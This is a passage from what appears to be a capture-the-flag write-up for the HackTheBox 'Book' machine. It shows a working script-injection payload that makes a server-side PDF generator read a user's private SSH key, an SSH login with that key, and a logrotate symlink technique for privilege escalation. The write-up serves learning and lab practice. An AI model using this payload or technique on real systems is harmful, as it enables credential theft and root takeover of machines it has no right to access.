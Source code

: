 We see that only root and reader have login shells. Let's modify the payload to get the private SSH key of `reader`.

`<script>x=new XMLHttpRequest;x.onload=function(){document.write("<font size='1'>" + this.responseText + "</font>")};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>`

This payload has two main changes:

* Requests for the SSH key of reader instead of getting the passwd file
* Sets to a smallest font to ensure the SSH file fits the generated PDF

After sending this modifed payload, we generate the PDF again.

This time, the PDF contains the private SSH key of reader. We save the key into a file `readerkey`.

With the SSH key, we can log in as `reader` to get the **user flag**.

```
# ssh reader@10.10.10.176 -i readerkey
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)
<SNIP>
reader@book:~$ ls
backups user.txt
```

## Exploiting Logrotate

The home directory of `reader` contains a backup directory with log files. With writeable log files, we can consider exploiting logrotate.

Logrotate is a system utility that manages the automatic rotation and compression of log files.

How does it work:

* Under the create method, logrotate creates a new empty logfile in the log directory after rotating.
* If the log directory is swapped with a symlink pointing to another location, we can create a new file at that location.
* Because logrotate runs as root, it can write into any location.
* By default, the file is created with the same permissions as the original log file. 
* Since the attacker can write to the original log file, the attacker can also write to this newly created file.

A typical exploitation path for privilege escalation is to write a payload into `/etc/bash_completion.d` so that it will be executed when root logs in. 

(In this case, the relevant [shell startup file](http://www.linuxfromscratch.org/blfs/view/svn/postlfs/profile.html) is `/etc/profile.d/bash_completion.sh`.)

### Exploit Conditions

We need logrotate to **rotate our log file** to trigger our exploit. 

Psspy shows us that logrotate is being forced to rotate the logs every 5 seconds. So that works.

However, we cannot view the config file `/root/log.cfg` so we will have to guess what's inside.

```
2020/04/19 10:58:45 CMD: UID=0    PID=113349 | /usr/sbin/logrotate -f /root/log.cfg 
2020/04/19 10:58:45 CMD: UID=0    PID=113348 | /bin/sh /root/log.sh 
2020/04/19 10:58:45 CMD: UID=0    PID=113350 | sleep 5 
2020/04/19 10:58:50 CMD: UID=0    PID=113352 | /usr/sbin/logrotate -f /root/log.cfg 
2020/04/19 10:58:50 CMD: UID=0    PID=113351 | /bin/sh /root/log.sh 
2020/04/19 10:58:50 CMD: UID=0    PID=113353 | sleep 5 
```
